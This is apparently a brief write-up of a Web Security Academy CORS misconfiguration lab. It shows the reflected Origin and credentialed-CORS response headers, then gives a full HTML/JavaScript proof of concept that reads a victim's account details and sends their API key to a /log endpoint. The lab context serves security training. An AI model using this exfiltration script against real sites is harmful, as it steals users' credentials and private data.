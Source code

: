 - The web app allows any `Origin:` header
- And responds with

Origin: https://anywebsite.com


**Access-Control-Allow-Origin: https://anywebsite.com**
**Access-Control-Allow-Credentials: true**


![cors-lab-01](https://github.com/user-attachments/assets/44def984-a276-44a1-850a-cc1bc4c63d20)


- And the HTML-Java Script you send to the victim to steal their API key:

```html

<html>
    <body>
        <!-- The main body of the HTML document -->
        <h1>Hello World!</h1>
        <!-- Displays a heading on the page -->

        <script>
            <!-- Start of the embedded JavaScript code -->

            // Create a new XMLHttpRequest object to make HTTP requests.
            var xhr = new XMLHttpRequest();

            // PUT YOUR URL HERE: Define the URL for the target server where the request will be sent.
            var url = "https:/labid.web-security-academy.net"

            // Define a function to handle the state change of the XMLHttpRequest object.
            xhr.onreadystatechange = function() {
                // Check if the request has completed (readyState == DONE).
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    // Send the response text from the previous request to the /log endpoint of the current origin.
                    fetch("/log?key=" + xhr.responseText);
                }
            };

            // Configure the XMLHttpRequest object to make a GET request to the account details endpoint.
            xhr.open('GET', url + "/accountDetails", true);

            // Indicate that the request should include credentials (cookies, authorization headers, etc.).
            xhr.withCredentials = true;

            // Send the configured HTTP GET request.
            xhr.send(null);

            <!-- End of the script -->
        </script>
    </body>
</html>

```
